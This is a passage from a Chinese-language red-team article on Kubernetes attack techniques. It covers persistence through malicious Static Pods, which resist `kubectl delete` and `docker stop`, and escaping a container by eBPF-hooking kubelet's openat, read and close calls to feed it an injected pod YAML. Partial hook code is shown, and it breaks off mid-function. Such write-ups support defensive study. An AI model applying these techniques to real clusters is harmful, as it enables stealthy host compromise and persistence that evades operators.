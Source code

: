 最重要的是，Static Pod 不依赖于 st_mtime 逻辑，也无需设置可执行权限，新文件检测逻辑更加通用。

```js
func (s *sourceFile) extractFromDir(name string) ([]*v1.Pod, error) {
    dirents, err := filepath.Glob(filepath.Join(name, "[^.]*"))
    if err != nil {
        return nil, fmt.Errorf("glob failed: %v", err)
    }
    pods := make([]*v1.Pod, 0, len(dirents))
```



而文件更新检测是基于 kubelet 维护的 POD Hash 表进行的，配置的更新可以很及时和确切的对 POD 容器进行重建。Static Pod 甚至包含稳定完善的奔溃重启机制，由 kubelet 维护，属于 kubelet 的默认行为无需新加配置。操作系统层的痕迹清理只需删除 Static Pod YAML 文件即可，kubelet 会自动移除关闭运行的恶意容器。同时，对于不了解 Static Pod 的蓝队选手来说，我们需要注意的是，使用 `kubectl delete` 删除恶意容器或使用 `docker stop` 关闭容器都无法完全清除 Static Pod 的恶意进程，kubelet 会守护并重启该 Pod。

eBPF 劫持 kubelet 进行逃逸

------

劫持 kubelet 仅需要 hook `openat` 、 `read` 、 `close` 三个系统调用。hook 的 eBPF 代码和上面 hook `cron` 几乎一样，但有以下几点不同。

`bpf_get_current_pid_tgid` 获取的是内核调度线程用的 pid，而 kubelet 是多线程程序，因此需要修改根据 pid 过滤系统调用为使用 tgid 来过滤，这里采取简单办法，直接根据程序名过滤：

```js
// ...
    char comm[TASK_COMM_LEN];
    bpf_get_current_comm(&comm, sizeof(comm));
    // executable is not kubelet, return
    if (memcmp(comm, TARGET_NAME, sizeof(TARGET_NAME)))
        return 0;
// ...
```



yaml 不支持多行注释，导致 hook `read` 时，如果原始返回过长，只能将超出我们写的 payload 长度的部分覆盖掉，不过我们可以使用 `bpf_override_return` 来修改 `read` 的返回值，因为 syscall 定义都是可以进行 error injection 的：

```js
#define __SYSCALL_DEFINEx(x, name, ...)                    \
    // ...
    asmlinkage long sys##name(__MAP(x,__SC_DECL,__VA_ARGS__))    \
        __attribute__((alias(__stringify(__se_sys##name))));    \
    ALLOW_ERROR_INJECTION(sys##name, ERRNO);            \
    // ...
#endif /* __SYSCALL_DEFINEx */
```



该 helper 需要内核开启 `CONFIG_BPF_KPROBE_OVERRIDE` 选项，并且使用了该 helper 会导致被 hook 函数不会真正执行，我们 hook `read` 时需要在第二次 `read` 时返回 0 保证，不然 kubelet 第二次调用 `read` 时会读取真正的 yaml 文件内容。

完整的 hook `read` 返回代码如下：

```js
SEC("kretprobe/__x64_sys_read")
int kretprobe_sys_read(struct pt_regs *ctx)
{
    char comm[TASK_COMM_LEN];
    bpf_get_current_comm(&comm, sizeof(comm));
    // executable is not kubelet, return
    if (memcmp(comm, TARGET_NAME, sizeof(TARGET_NAME)))
        return 0;
    if (read_buf == 0)
        return 0;
    if (written)
    {
        written = 0;
```